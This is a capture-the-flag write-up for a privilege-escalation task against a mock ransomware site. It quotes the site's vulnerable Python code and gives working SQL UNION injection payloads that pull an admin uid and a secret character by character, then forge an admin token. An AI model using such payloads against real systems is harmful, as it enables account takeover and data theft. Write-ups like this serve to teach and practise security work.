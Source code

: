 <!-- HEADER -->
<div align="center">

# [\[<<\]](../Task6/) Task 7 - Privilege Escalation [\[>>\]](../Task8/)
![Category: Web Hacking, [redacted]](https://img.shields.io/badge/Category-Web_Hacking,_[redacted]-informational?style=flat-square)
![Points: 300](https://img.shields.io/badge/Points-300-43853D?style=flat-square)

![Task Screenshot](https://i.imgur.com/4diJM64.png)

</div>

<!-- DESCRIPTION -->
> With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.
> 
> Generate a new token value which will allow you to access the ransomware site *as an administrator*.
> 
> ---
> 
> Enter a token value which will allow you to login as an administrator.
> ```
> ```

## Files
* [provided/](provided/)
	- (empty)
* [genAdminToken.py](genAdminToken.py) - Generates a new admin token.

<!-- BREAKDOWN & SOLUTION -->
## Breakdown & Solution
Using the token we generated in the [last task](../Task6/), we can add it to our cookies and try to login. We know that the cookie name is `tok` from the [data file](../Task5/data.txt) we found. While you can do this natively using browser dev tools, I prefer to use a cookie-editor plugin:

![cookie](https://i.imgur.com/v4lXbXp.png)

Now that we should be authenticated, lets go to forum (we saw what pages existed from the [site source](../TaskB2/repo/app/templates/)) and see if we can find anything:

![forum](https://i.imgur.com/ZwhpLtK.png)

Interesting site. Lets get back to the task at hand, we need get an admin token. Going to `/adminlist` we see that the admin `SoggyPlate` is online:

![adminlist](https://i.imgur.com/kmR3aDf.png)

(RIP evil rock 😔😔)

Ok but how are we going to get an admin token? Well we only have limited access to the site. Looking at the [source code](../TaskB2/repo/app/), we can see that `/lock` and `/unlock` aren't much use to us. However, `userinfo()` is pretty interesting:

```py
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
	with util.userdb() as con:	
		infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query # here!
		row = con.execute(infoquery).fetchone()	
		if row != None:
			userName = query
			memberSince = int(row[0])
			clientsHelped = int(row[1])
			hackersHelped = int(row[2])
			contributed = int(row[3])
	if memberSince != '':
		memberSince = datetime.utcfromtimestamp(int(memberSince)).strftime('%Y-%m-%d')
	resp = make_response(render_template('userinfo.html', 
		userName=userName,
		memberSince=memberSince, 
		clientsHelped=clientsHelped,
		hackersHelped=hackersHelped, 
		contributed=contributed,
		pathkey=expected_pathkey()))
	return resp
```

Notice how the `infoquery` variable is not secure!

Compared to every other selection query we've seen so far:

```py
def validate_token(token):
	# snipped
	row = con.execute('SELECT secret FROM Accounts WHERE uid = ?', (claims['uid'],)).fetchone()
	# snipped

def generate_token(userName):
	# snipped
	row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
	# snipped
	
def get_username():
	# snipped
	row = con.execute("select userName from Accounts where uid = ?", (uid,)).fetchone()
	# snipped
```

They all use `con.execute("...?...", (var,)).fetchone()` but ours is different! We directly use a string format:
```py
	infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query # here!
```

Looking into this online, I found that con execute is secure against SQL injections, but unlike the rest, the one in `userinfo()` is not, these are sloppy mistakes that can be exploited!


We can see that in `userinfo()` it takes a request value of `user`:

```py
def userinfo():
	""" Create a page that displays information about a user """			
	query = request.values.get('user')
	if query == None:
		query =  util.get_username()	
	userName = memberSince = clientsHelped = hackersHelped = contributed = ''
```

This should just be equivalent of doing `/userinfo?user=0xfbad`! Lets try this with the admin's name `SoggyPlate`:

![userinfo](https://i.imgur.com/0Ah3Gvc.pngg)

Nice, so now we need to do a bit of SQL injection to get the admin's secret and user id. We can see that our input goes in that the query returns `memberSince, clientsHelped, hackersHelped, programsContributed`:

```py
if row != None:
	userName = query
	memberSince = int(row[0])
	clientsHelped = int(row[1])
	hackersHelped = int(row[2])
	contributed = int(row[3])
```

What instead we can do enter `'` so the query searches empty usernames (which there are none), then we UNION (combine) and select the information we want, in this case, just the user id. We can use this SQL payload:

```
' UNION SELECT 0, 0, 0, uid FROM Accounts WHERE userName='SoggyPlate' --
```
Lets go to `/userinfo?user=' UNION SELECT 0, 0, 0, uid FROM Accounts WHERE userName='SoggyPlate' --`:

![userinfo](https://i.imgur.com/6gVmwks.png)

Nice we got the admin's uid! (`15861`). Now we need to get the client secret. The issue however is that as we saw in the previous task, the client secret is a string, not a number. So we need somehow convert it to a number. What we'll do is convert the string into hex char by char and then convert it back via char codes:

```
' UNION SELECT 0, 0, 0, unicode(substr(secret, {index}, 1)) FROM Accounts WHERE userName='InexpensivePlastic' --
```

So lets run the [script](./genTargetToken.py) I made to automate this process

```
$ python genTargetToken.py
(..snipped..)

[!] Retrieved client secret:    6E4NYzI4gkMlEcYSZv5z1qaNKCoW2F2P

[*] Generating token with of "SoggyPlate" with uid: 15861 and secret: 6E4NYzI4gkMlEcYSZv5z1qaNKCoW2F2P
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODk3NDQsImV4cCI6MTcwMjEyNTc0NCwidWlkIjoxNTg2MSwic2VjIjoiNkU0Tll6STRna01sRWNZU1p2NXoxcWFOS0NvVzJGMlAifQ.3Hh1Q_Yz4SjhogG8FpvaAzUDpBJJqN_drXjb08u2Rt0
```

We got the client secret and thus were able to generate a new token! Lets submit `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODk3NDQsImV4cCI6MTcwMjEyNTc0NCwidWlkIjoxNTg2MSwic2VjIjoiNkU0Tll6STRna01sRWNZU1p2NXoxcWFOS0NvVzJGMlAifQ.3Hh1Q_Yz4SjhogG8FpvaAzUDpBJJqN_drXjb08u2Rt0`.

![Task Screenshot](https://i.imgur.com/7bVNFF1.png)

> ```
> Great! What can we find in the admin area?
> ```

<!-- TL;DR -->
## Technical TL;DR
The site owners left a vulnerable SQL injection in the `userinfo()` function. We were able to use this to get the admin's uid and client secret. Since we can only get back numbers in the response, we convert each char of the secret into its unicode representation and then convert it back into a char to build out the final secret. Then use the same process as task 6 to generate a new token with the admin's uid and secret.

---

<div align="center">

[return to top](#top)

</div>